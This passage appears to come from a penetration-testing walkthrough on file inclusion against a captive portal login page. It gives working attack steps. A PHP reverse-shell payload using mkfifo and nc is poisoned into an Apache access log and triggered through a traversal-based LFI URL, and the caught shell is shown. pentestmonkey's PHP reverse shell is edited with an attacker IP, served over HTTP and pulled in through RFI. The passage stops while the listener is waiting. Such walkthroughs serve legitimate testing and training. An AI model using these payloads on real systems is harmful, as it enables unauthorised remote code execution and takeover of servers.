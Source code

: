 &lt;?php echo `rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&gt;&amp;1|nc 192.168.0.19 4444 &gt;/tmp/f`; ?&gt;

HTTP/1.1 400 Bad Request
</code></pre>
<p>This command logs a malformed HTTP request containing PHP code. If the log file is later included through LFI, the payload will execute and establish a reverse shell.</p>
<p>Before triggering the payload, we must start a listener on our attack machine:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nlvp 4444

listening on [any] 4444 ...
</code></pre>
<p>Netcat is now waiting for an incoming connection from the target.</p>
<p>To execute the payload, we navigate to the vulnerable LFI endpoint: <code>http://192.168.0.6/login.php?file=../../../var/log/apache2/access.log</code></p>
<p>If successful, the target server will execute the reverse shell command and connect back to our listener.</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nlvp 4444      

listening on [any] 4444 ...
connect to [192.168.0.19] from (UNKNOWN) [192.168.0.6] 59710

whoami
www-data
</code></pre>
<hr/>
<h2>Remote File Inclusion</h2>
<p>Remote File Inclusion (RFI) is a vulnerability that allows an attacker to inject and execute remote files (such as malicious scripts) on a web server. This typically occurs when an application dynamically includes files based on user input without proper validation.</p>
<p>If the target is vulnerable to Remote File Inclusion (RFI), we can load and execute a malicious PHP script from our attack machine. To do this, we first need to host the malicious file and then trick the server into executing it.</p>
<p>We first need to host the PHP reverse shell script from <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php">pentestmonkey’s</a> repository. Before doing so, we must modify the script to include our attacking machine’s IP address and port.</p>
<p>Open the script in a text editor and update the IP and port values:</p>
<pre><code class="language-shell-session">[!bash!]$ nano php-reverse-shell.php
&lt;snip&gt;
$ip = '192.168.0.19';  // CHANGE THIS TO ATTACKER'S IP
$port = 4444;          // CHANGE THIS TO ATTACKER'S PORT
&lt;/snip&gt;
</code></pre>
<p>Before delivering the payload, we need to start a listener on our attacking machine to catch the incoming connection.</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nlvp 4444

listening on [any] 4444 ...
</code></pre>
<p>We will serve the modified PHP reverse shell using Python’s built-in web server.</p>
<pre><code class="language-shell-session">[!bash!]$ python3 -m http.server 3333

Serving HTTP on 0.0.0.0 port 3333 (http://0.0.0.0:3333/) ...
</code></pre>
<p>Now, we navigate to the captive portal and force it to include our malicious file: <code>http://192.168.0.6/login.php?file=http://192.168.0.19:3333/php-reverse-shell.php</code></p>
<p>Once the server includes our file, our listener should receive a connection:</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nlvp 4444             
